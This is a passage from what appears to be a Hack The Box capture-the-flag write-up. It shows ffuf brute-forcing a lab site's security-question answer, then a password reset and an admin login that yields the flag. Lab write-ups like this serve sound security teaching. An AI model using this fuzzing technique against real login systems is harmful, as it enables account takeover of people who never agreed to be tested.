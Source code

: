 ```
 :: URL              : http://94.237.50.242:40498/security_question.php
 :: Wordlist         : FUZZ: /home/samsepiol/city_wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=vaqmcll67v0s0aif4rtq0jiggq
 :: Data             : security_response=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Incorrect response.
________________________________________________

Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 149ms]
```

Answer for first question is `Manchester`, we got `302` status code, which means we are now able to reset the password:

![](images/Pasted%20image%2020250214180234.png)

Let's go with the following credentials:

```ad-note
`admin`:`password`
```

![](images/Pasted%20image%2020250214180310.png)

And we can now log into the admin panel:

![](images/Pasted%20image%2020250214180332.png)

Flag is:

```
HTB{d4740b1801d9880ff70de227a54309f0}
```